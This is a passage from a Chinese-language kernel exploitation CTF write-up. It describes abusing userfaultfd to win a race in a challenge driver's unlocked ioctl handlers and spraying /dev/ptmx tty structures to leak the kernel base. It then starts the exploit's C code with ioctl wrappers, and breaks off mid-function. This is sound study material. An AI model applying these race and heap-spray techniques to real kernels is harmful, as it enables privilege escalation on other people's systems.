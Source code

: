 # 0x4. 漏洞分析与利用
## 1. 通过``userfaultfd``获取内核基地址

在本题中，核心的操作就是``get``、``add``、``edit``、``dele``这4个。其中``get``和``edit``函数没有加锁，``dele``和``add``都加了写锁。通过``get``或``edit``函数可以传入一个mmap出来的用户空间，然后触发``userfaultfd``。那么在条件竞争的这个时间窗口，我们又需要做什么呢？和上一题相似，也是重复打开``/dev/ptmx``文件，尝试使用同样的方法进行利用。下面是我们的第一个测试程序（kernel.h请参考[资料](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I)中提到的通用kernel pwn板子，``print_binary``请参考笔者之前的kernel pwn文章）：

```c
//
// Created by ubuntu on 22-10-5.
//
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include "kernel.h"

typedef struct input{
    union{
        size_t size;
        size_t index;
    }info;
    char* buf;
}input;

#define GET 0x2333
#define ADD 0x1337
#define EDIT 0x8888
#define DEL 0x6666
#define TTY_STRUCT_SIZE 0x2E0

int fd;
static char* faultBuffer;

void get(int index, char* buffer){
    input in = {
            .info.index = index,
            .buf = buffer,
    };
    ioctl(fd, GET, &in);
}

void add(int size){
    input in = {
            .info.size = size,
    };
    ioctl(fd, ADD, &in);
}

void dele(int index){
    input in = {
            .info.index = index,
    };
    ioctl(fd, DEL, &in);
}

void edit(int index, char* buffer){
    input in = {
            .info.index = index,
            .buf = buffer,
```